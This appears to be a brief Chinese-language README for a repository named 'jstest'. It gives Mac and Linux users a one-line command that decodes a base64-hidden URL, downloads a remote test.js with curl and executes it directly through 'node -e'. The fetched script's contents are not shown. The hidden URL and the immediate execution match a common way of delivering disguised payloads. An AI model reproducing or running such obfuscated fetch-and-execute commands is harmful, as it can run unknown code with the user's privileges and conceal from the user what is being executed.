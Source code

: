 # jstest

MAC用户执行：
```node -e "$(curl -fsSL $(echo aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3dkb25neHYvanN0ZXN0L21hc3Rlci90ZXN0LmpzCg== | base64 -D))"```
Linux(centos测试通过)用户执行：
```node -e "$(curl -fsSL $(echo aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3dkb25neHYvanN0ZXN0L21hc3Rlci90ZXN0LmpzCg== | base64 -d))"```
